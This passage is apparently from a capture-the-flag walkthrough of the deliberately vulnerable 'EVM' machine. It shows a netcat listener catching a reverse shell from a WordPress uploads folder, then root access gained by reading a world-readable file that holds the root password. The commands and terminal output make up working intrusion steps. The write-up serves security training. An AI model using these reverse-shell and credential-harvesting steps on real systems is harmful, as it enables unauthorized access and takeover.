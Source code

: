 Then we first setup a netcat listener on port 443 and request with the browser the reverse shell.
![](/assets/images/evm/screenshot-11.png)

And we get a reverse shell with permissions that the web application is running.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.144] 43786
bash: cannot set terminal process group (1439): Inappropriate ioctl for device
bash: no job control in this shell
<var/www/html/wordpress/wp-content/uploads/2021/08$ script bash /dev/null
script bash /dev/null
$ bash
bash
<var/www/html/wordpress/wp-content/uploads/2021/08$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation
### Exposed Credentials

Into the **/home/root3r** directory I found the password for the root user in the **.root_password_ssh.txt** file. 

```bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -la
ls -la    
total 40            
drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .  
drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..  
-rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
-rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout 
-rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
-rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
-rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
-rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
-rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .roo*
cat .roo*
willy26
```
Then we switch to the root user with the found password, and we get root.
```bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su -
su -
Password: willy26

root@ubuntu-extermely-vulnerable-m4ch1ine:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
```
